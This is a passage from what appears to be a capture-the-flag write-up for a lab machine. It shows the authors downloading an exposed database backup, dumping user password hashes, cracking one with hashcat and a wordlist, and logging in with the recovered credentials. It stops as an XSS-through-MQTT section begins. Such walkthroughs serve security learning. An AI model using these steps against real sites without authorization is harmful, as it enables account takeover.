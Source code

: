```bash
Finished
===============================================================
```
We found the file https://www.sunfriends.nyx/database.sql.gz, downloaded it, decompressed it, and found a database with the following user data.

## Cracking hash

In the database backup, we found:

```sql
INSERT INTO `users` VALUES
(1,'Robert24','66dc8ac996672de0cdeb294808d4cca21ba0bc856c365e90562565853febed0c','user'),
(2,'calvin','e8e9689deac5bac977b64e85c1105bd1419608f1223bdafb8e5fbdf6cf939879','user'),
(3,'JulianAdm','bbca1b30190fddeead4e1a845ee063bec94499601aa5ee795da8917767bdcdde','admin'),
(4,'John20','38858f3066c9a6f3d8c6e54fbfcff204d5383f0721c32bc8ae46cf46a93e3694','user');
```

We managed to crack only the hash for user **calvin**; the rest of the passwords appear to be secure.

```bash
$ echo e8e9689deac5bac977b64e85c1105bd1419608f1223bdafb8e5fbdf6cf939879 > hash-calvin
$ hashcat ./hash-calvin
$ hashcat -m 1400 hash-calvin /usr/share/wordlists/rockyou.txt
$ hashcat -m 1400 hash-calvin /usr/share/wordlists/rockyou.txt --show
e8e9689deac5bac977b64e85c1105bd1419608f1223bdafb8e5fbdf6cf939879:emily
```

In a short time, we obtained the password `emily`, so we logged into the form at `www.solar.nyx` with the credentials `calvin:emily`.

## XSS through MQTT

We analyzed the code at https://www.solar.nyx/dashboard.php.
